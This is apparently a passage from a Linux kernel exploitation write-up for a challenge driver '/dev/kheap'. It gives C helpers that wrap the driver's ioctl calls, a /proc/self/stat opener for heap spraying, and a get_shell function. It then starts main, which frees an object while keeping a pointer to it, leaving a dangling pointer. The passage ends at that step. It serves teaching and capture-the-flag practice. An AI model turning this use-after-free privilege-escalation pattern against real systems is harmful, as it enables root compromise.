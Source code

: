 Subsequently, by wrapping the `ioctl` function, we abstract several functionalities implemented for easy invocation.

```c
int dev_fd;
int seq_fd;

void new(uint64_t idx)
{
  struct info arg = {idx, NULL};
  ioctl(dev_fd, 0x10000, &arg);
}

void delete(uint64_t idx)
{
  struct info arg = {idx, NULL};
  ioctl(dev_fd, 0x10001, &arg);
}

void choose(uint64_t idx)
{
  struct info arg = {idx, NULL};
  ioctl(dev_fd, 0x10002, &arg);
}

int seq_open()
{
  int seq;
  if ((seq = open("/proc/self/stat", O_RDONLY)) == -1)
  {
    puts("[X] Seq Open Error");
    exit(0);
  }
  return seq;
}

void get_shell()
{
  system("/bin/sh");
  exit(0);
}
```

Now we can start writing the exploit.

Firstly, we create a dangling pointer with `idx=0`.

```c
int main()
{
  save_state();

  dev_fd = open("/dev/kheap", O_RDWR); // Kheap Device FD
  if (dev_fd < 0)
  {
    puts("[X] Device Open Error");
    exit(0);
  }

  new(0);
  choose(0);
  delete(0);
}
```
